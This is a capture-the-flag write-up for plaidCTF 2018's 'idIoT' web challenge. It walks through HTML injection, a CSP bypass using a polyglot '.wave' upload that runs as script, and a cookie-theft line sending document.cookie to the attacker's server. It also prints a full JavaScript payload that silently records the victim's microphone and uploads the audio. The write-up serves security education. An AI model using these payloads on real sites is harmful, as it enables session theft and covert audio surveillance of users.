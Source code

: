 # idIoT: Action
*plaidCTF 2018 Web 200*


## Problem

Some people won't let any smart devices in their home at all. Some are cautious, do their research, and make an informed decision. This guy falls in neither category; he's a a downright idIoT. 

The idIoT uses this service called [clipshare](https://idiot.chal.pwning.xxx/); you can find his account [here](https://idiot.chal.pwning.xxx/user.php?id=3427e48e-a6eb-4323-aed4-3ce4a83d4f46) or here after you make an account. 

He was telling me the other day about how he has a Google Home next to his computer running at all times. He also told me that if you ask politely it will tell you the flag. However, while he'll look at anything you share, he closes it almost immediately if he doesn't seem like it'll interest him. Maybe we can look at his clips to find something to match his interests? 

(Flag format: PCTF{xxx} where xxx is some text composed of lower-case letters and underscores)

## Look up
We can write a new clip with out title, description and some audio. Audio can be uploaded, or can be recorded using our browser. After some simpletest, we can find 'Description' field allows us `HTML Tag Injection`, but not `<script>` becuase of its CSP.

![Tag injected](https://i.imgur.com/F4fv0PF.png)
![CSP](https://i.imgur.com/hvCZdyr.png)

Since CSP exists `script-src 'self'`, XSS shoud be able by uploading some scripts to clip and including it.

## Weak audio check and MIME type

Server refuses the fiel when its extension is not ended with `.wav/.wave/.mp3/.ogg/.web`. But it doesn't seems strictly check it. We can upload some corrupted audio files like this one!
![Is this real wav?](https://i.imgur.com/15mYPVI.png)

It considered as normal wave file since its magic number, but it also can be translated as following javascript.

	RIFF=1;
	alert('test);


I've tried script injection with .wav and .mp3 files, but both of them didn't work. It couldn't pass the MIME type check. ![mpeg MIME is not executable](https://i.imgur.com/5wBeF6O.png)

So I googled about it then I can find a document that lists [default apache MIME types](https://svn.apache.org/repos/asf/httpd/httpd/trunk/docs/conf/mime.types)
![What is wave??](https://i.imgur.com/c5X5Dup.png)

We can see apache doesn't recognize `.wave` extension as `audio/*`, thus including `.wave` file like following allows to script execution.
`<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>`


## Get a flag
Two steps required to get a flag.

* Show admin's clips
* Record a response of Google Home.  

### Show clips of admin
Since we know how to execute javascript, stealing is easy. Various way to steal admin's clip.
`location.href = <your server> + "?ck=" + "document.cookie"`

After we change our session to admin's session, we can see two clips.

First clip is

	Title; Thoughts on Google Home
	
	I got a Google Home recently, and I've been having a lot of fun with it!
		
and next one is
 
	Title; Nostalgia
	
	Has anyone else played Toaster Wars?
	Share me clips with 'spatulate' in the description and I'll give them a listen!
	
By the audio clip of first clip I mentioned, if we say "Hey Google, what is a flag?" to Google Home, it will answer the flag. So the next thing to do is record audio "Hey Google, what is a flag?" and write a description as 'spatulate' to Google Home listen it.

### Record from admin's account
We already know how to get a flag. But it has a problem. We can guess Google Home **speaks** the flag, then how can we get it? `js/main.js` has the answer. `main.js` has implementations to deal with this problem. 

![record, submit](https://i.imgur.com/if9YeMI.png)

If we reconstruct javascripts using those implementations of record and submit, we can write a new clip! But admin's account seems can't write a new clip, so we have to write it to our own account by chainging session.

So final payload is

Description field:

	spatulate
	<form action="create.php" method="post" enctype="multipart/form-data" id="upload-	form">
		<input type="text" name="title" value="answer"/>
		<input type="text" name="description" value="answer"/>
		<audio id="record-playback" controls></audio>
		<input type="submit" name="submit" value="submit" />
	</form>
	<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>

Script in .wave:

	navigator.mediaDevices.getUserMedia({ audio: true })
		.then((stream) => {
		mediaRecorder = new MediaRecorder(stream, { mimeType: 'audio/webm' });
		mediaRecorder.start();
		let chunks = [];
		mediaRecorder.addEventListener("dataavailable", (e) => {th
			chunks.push(e.data);
			console.log(e.data);
		});
		mediaRecorder.addEventListener("stop", () => {
		   mediaBlob = new Blob(chunks);
		   document.cookie = "PHPSESSID=v3368khvdmn5pl8ea6qh5g3ke3";
		   let uploadForm = document.getElementById("upload-form");
		   let formData = new FormData(uploadForm);
		   formData.append("audiofile", mediaBlob, "audio.webm");
		   let f = fetch("create.php", {
				method: "POST",
				body: formData,
				credentials: "same-origin"
			});	
		})
		setTimeout(function() {
			mediaRecorder.stop();
		}, 15000);
	});
	
###Final
Injected script will write a new clip named 'answer' with an audio reading flag :D

The flag is `PCTF{not_so_smart}`
